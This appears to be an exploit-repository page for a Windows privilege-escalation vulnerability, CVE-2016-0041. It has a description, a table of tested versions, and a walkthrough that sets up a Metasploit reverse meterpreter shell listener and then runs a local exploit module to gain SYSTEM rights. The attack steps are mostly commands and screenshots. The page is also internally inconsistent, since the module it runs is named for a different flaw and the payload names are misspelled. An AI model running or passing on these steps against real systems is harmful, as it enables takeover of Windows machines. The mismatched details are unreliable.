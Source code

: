### CVE-2016-0041

#### Describe

Microsoft Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, Windows 10 Gold and 1511, and Internet Explorer 10 and 11 mishandle DLL loading, which allows local users to gain privileges via a crafted application, aka "DLL Loading Remote Code Execution Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested                   |
| ------------------- | ---------------- | ------- | ------ | ------------------------ |
| Windows 10          |                  |         |        |                          |
| Windows 10          |                  | 1511    |        |                          |
| Windows 7           |                  |         | SP1    | &#10004;       |
| Windows 8.1         |                  |         |        |                          |
| Windows Rt 8.1      |                  |         |        |                          |
| Windows Server 2008 |                  |         | SP2    | &#10008; |
| Windows Server 2008 |                  | R2      | SP1    | &#10008; |
| Windows Server 2012 |                  |         |        | &#10008; |
| Windows Server 2012 |                  | R2      |        | &#10008; |
| Windows Vista       |                  |         | SP2    |                          |

#### Utilization

Tested the C ++ code version that can be found online, Windows 7 x86 / x64 will be blue screen, and all versions of Windows Server 2008/2012 have no response, all this side can only use the MSF version.Only the rebound shell with only `payage/windows/x64/meterpreter/revrse_tcp`，`payload/windows/meterpreter/reverse_tcp`version failure 

Test system Windows 7 SP1 x64，First monitor

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

You can see the following rebound shell

![CVE-2016-0041_win7_sp1_x64_01](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0041_win7_sp1_x64_01.png)

Then use the rights vulnerability

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0041_win7_sp1_x64_02.png)

You can see that we finally became SYSTEM permissions.